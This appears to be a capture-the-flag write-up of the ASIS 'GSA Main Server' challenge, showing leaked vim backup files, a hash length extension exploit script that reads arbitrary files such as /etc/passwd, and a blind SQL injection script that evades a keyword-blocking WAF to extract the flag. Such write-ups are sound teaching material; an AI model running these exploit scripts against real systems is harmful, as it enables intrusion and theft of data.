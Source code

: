 # GSA Main Server

The participants were given a portal containing some information and it has some features such as downloading attachments and etc. After spending some time on the task, I notieced a comment in the last line of index.php file:

```
<!--# vim: syntax=apache ts=4 sw=4 sts=4 sr noet-->
```

Indicating the file has been modified by vim, so I checked `index.php~`, nothing useful but:
```
<? require 'html/header.php'; ?>
<? require 'functions.php' ?>
<? require 'infoDB.php' ?>
```
I checked all pages by adding ~ and, `functions.php~` was there:
```
<?php

// database configuration
include 'configuration.php';

// waf to protect the web attacks
include 'waf.php';

// connection to the database
$mysqli = new mysqli(__DB_HOST, __DB_USER, __DB_PASS, __DB_NAME);

// signature function
// store __KEY in safe place
// __KEY is stored in configuration.php
// do not change the __KEY if you don't know how the system workes, the installation process produces secure 10-chacacter key
function makeSignature($fileName){
    return md5(md5(__KEY) . $fileName);
}

// function to get header data by HTTP packet
function getHeaderData($headers, $name){
    return (array_key_exists($name, $headers))?$headers[$name]:false;
}

// parsing the database resultst
function resultToArray($result){
    $rows = array();
    while($row = $result->fetch_assoc()){
        $rows[] = $row;
    }
    return $rows;
}

// end
```
On the other side, in portal (*http://178.62.34.76/showInformation/2*) there was an attachment to download:

```
GET /getAttachment/file.txt HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close
```

It had two important parts, filename which was given by URL and `X-Signature: beb2e68c628653c72abcb388b078cfda` which prevented from changing file name:
```
GET /getAttachment/blahblah HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close


Rsponse: Error: Invalid Signature has been given
```

Back to the functions.php, if makeSignature makes the signature, there are two notes:

+ The key cannot be brute forced, because the length was 10 character as mentioned in comment
+ The function was vulnerbale to Hash Length Extension

So I used hashpumpy library to exploit the hole:

```
import requests
import hashpumpy
import urllib
import sys

if len(sys.argv) != 2:
	print ''
	print '[>] Usage: python {} [path]'.format(sys.argv[0])
	print '[>] Example: python {} ../../../../../../etc/passwd'.format(sys.argv[0])
	print ''
	sys.exit()

new_digest, new_data = hashpumpy.hashpump('beb2e68c628653c72abcb388b078cfda', 'file.txt', '?/' + sys.argv[1] , 32)
new_data_encoded = urllib.quote_plus(urllib.quote_plus(new_data))

print ''
print '[>] New Signature: {}'.format(new_digest)
print '[>] New data: {}'.format(new_data.encode('hex'))
print '[+] Result:'
print ''
print '~~~~~~'

headers = {'X-Signature': new_digest}
response = requests.get('http://178.62.34.76/getAttachment/' + new_data_encoded, headers=headers);
print response.text;

print '~~~~~~'
print ''
```

Result:
![](1.png)

I spent much time here, figured out that two files were important to read:

+ Squid config 
+ .htaccess

The htaccess source:

```
RewriteEngine on

RewriteRule simple-php-captcha.php simple-php-captcha.php [L]

RewriteRule showInformation/(.+) /showInformation.php?informationID=$1 [L]
RewriteRule infoSubmit /informationSubmit.php [L]
RewriteRule notConfirmedInformation/(.+) /notConfirmedInformation.php?informationID=$1 [L]
RewriteRule getAttachment/(.+) /getAttachment.php?fileName=$1 [L]
RewriteRule dataSubmitted/(.+) /dataSubmitted.php [L]
RewriteRule adminer-4.3.1-en.php adminer-4.3.1-en.php [L]

#RewriteRule "searchData/(.+)" "http://gsa.dataStorage.domain/0/portalSearch/?searchURL=$1" [L]
#RewriteRule "API/(.+)" "http://gsa.API.domain/api/$1" [L]

RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.php [L]

RewriteCond %{THE_REQUEST} \.php[\ /?].*HTTP/ [NC]
RewriteRule ^.*$ index.php [L]

```

Revealing two new hosts (next questions), and some hidden path such as `notConfirmedInformation/` and etc. `infoSubmit/` path allowed to insert new information and `notConfirmedInformation/` allowed to see the information submitted. After some strugling at this stage, I found that `notConfirmedInformation/{id}` was prone to MySQL injection. However, the injection was tricky because as I deduced:

+ There was two query, first loads the page and second upgrades the view number.
+ The first one was totally secured, the second one had injection though. **The SQLi test was easy**
+ The WAF was annoying, it blocked queries had some keywords such as `union` and replaced some characters such as `space`

###### SQLi test:
http://178.62.34.76/notConfirmedInformation/265940057+and+1=1
http://178.62.34.76/notConfirmedInformation/265940057+and+1=2

Page gets loaded but `Visited` ony upgraded in first request


###### The flag:
Finnaly, I wrote a python code to exploit the injection hole:

```
import requests
import re
import sys

regex = re.compile("<b>Visited:</b> (\d+)</div>")


if len(sys.argv) != 2:
    print ''
    print '[>] Usage: python {} [id]'.format(sys.argv[0])
    print '[>] Example: python {} 265940057'.format(sys.argv[0])
    print ''
    sys.exit()

qq = "http://178.62.34.76/notConfirmedInformation/{}".format(sys.argv[1])
body = requests.get(qq).text

visited = int(regex.findall(body)[0])


#q = "(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))"
#q = "(select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())and(table_name='flag'))"
q = "(select(flag)from(flag))"

out = ""
for i in range(1,30):
    for c in range(31,126):
        qq = "http://178.62.34.76/notConfirmedInformation/"+sys.argv[1]+"-if(ord(mid("+q+","+str(i)+",1))="+str(c)+",0,2)"
        #print qq
        body = requests.get(qq).text
        #print body
        visited2 = int(regex.findall(body)[0])


        if visited + 1 == visited2:
            sys.stdout.write(chr(c)) 
            sys.stdout.flush()
            visited = visited2
            break
        if visited2==visited:
            pass
        else:
            pass
```

The Flag: ASIS{SQLi_sT1lL_Ex1sT5_G0od_j0B}

###### Contact
https://twitter.com/yshahinzadeh